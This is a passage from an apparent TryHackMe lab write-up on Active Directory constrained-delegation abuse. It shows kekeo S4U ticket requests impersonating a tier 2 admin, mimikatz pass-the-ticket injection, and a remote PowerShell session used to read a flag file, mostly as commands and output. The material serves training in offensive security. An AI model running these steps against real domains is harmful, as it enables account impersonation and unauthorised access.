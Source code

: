 ```text
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'

kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc
Ticket  : TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
  [krb-cred]     S: krbtgt/za.tryhackme.loc @ ZA.TRYHACKME.LOC
  [krb-cred]     E: [00000012] aes256_hmac
  [enc-krb-cred] P: svcIIS @ ZA.TRYHACKME.LOC
  [enc-krb-cred] S: krbtgt/za.tryhackme.loc @ ZA.TRYHACKME.LOC
  [enc-krb-cred] T: [11/7/2022 5:32:55 PM ; 11/8/2022 3:32:55 AM] {R:11/14/2022 5:32:55 PM}
  [enc-krb-cred] F: [40e10000] name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
  [enc-krb-cred] K: ENCRYPTION KEY 18 (aes256_hmac      ): ca2a5e5711972b192ef977c453cbf03096da849170c107db7fad1535852c1122
  [s4u2self]  t1_trevor.jones
[kdc] name: THMDC.za.tryhackme.loc (auto)
[kdc] addr: 10.200.60.101 (auto)
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_svcIIS@ZA.TRYHACKME.LOC.kirbi'
Service(s):
  [s4u2proxy] wsman/THMSERVER1.za.tryhackme.loc
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'
```

### Back to mimikatz

Inject the `S4U TGS` tickets into the current session as the tier 2 admin and launch a command 
prompt:

```text
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF63D4543B8
```

In the command prompt, and check the tickets were injected into the session:


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents>
[thmserver1.za.tryhackme.loc]: PS C:\Users\Administrator\Desktop> cat flag2.txt